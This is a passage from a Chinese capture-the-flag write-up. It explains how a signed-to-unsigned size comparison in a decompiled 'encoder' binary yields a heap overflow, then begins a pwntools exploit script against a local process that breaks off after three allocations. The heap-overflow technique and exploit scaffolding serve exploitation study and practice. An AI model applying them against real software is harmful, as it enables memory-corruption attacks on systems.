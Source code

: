 可以看到,程序会直接使用这个index下的指针,然后**将这个index下的size覆写为-1**,然后由于满足了v3 >= v6的条件,程序会跳过输入循环.

看起来似乎没有什么用?但是请看这一行代码:

```c
  *((_DWORD *)&unk_5060 + 8 * (int)v4) = v6;
```

这就是刚刚提到的"将这个index下的size覆写为-1".接下来,为了搞清楚这又有什么用,我们来看看`if ( v1 <= 16 )`的else分支:

```c
  else
  {    
    if ( *((_DWORD *)&unk_5060 + 8 * (int)v4) )
    {
      if ( *((_DWORD *)&unk_5060 + 8 * (int)v4) < (unsigned int)v1 )
      {
```

不难发现(好吧我承认其实很难发现),这里又把它转成了unsigned int来和v1(其实就是用户输入的v5)进行比较.也就是说,此时-1将比任何一个int正整数要大.只要此时我们输入的v5大于一开始输入的v5,就会产生堆溢出.

总结一下,如果我们按照以下步骤操作:

1. `upload(); index=0,size=x1;`
2. `upload(); index=0,size<0;`
3. `upload(); index=0,size=x2;`

就可以产生一个大小为x2-x1的堆溢出.

知道了这个方法,这题就变的相当容易:

```python
from pwn import *
#context.log_level='debug'

def upload(index,size,content):
	r.recvuntil(b">>\n")
	r.sendline(b"1")
	r.recvuntil(b"FileIdx: ")
	r.send(str(index))
	r.recvuntil(b"FileSize:")
	r.send(str(size))
	r.recvuntil(b"FileData: ")
	r.send(content)
	return
def download(index):
	r.recvuntil(b">>\n")
	r.sendline(b"2")
	r.recvuntil(b"FileIdx: ")
	r.send(str(index))
	r.recvuntil(b"FileData: ")
	return
def release(index):
	r.recvuntil(b">>\n")
	r.sendline(b"5")
	r.recvuntil(b"FileIdx: ")
	r.send(str(index))
	return

r=process("./encoder")
libc=ELF("./libc-2.31.so")
#gdb.attach(r)

pause()

upload(0,0x20,b'a'*0x20)
upload(1,0x30,b'b'*0x30)
upload(2,0x500,b'c'*0x500)
```
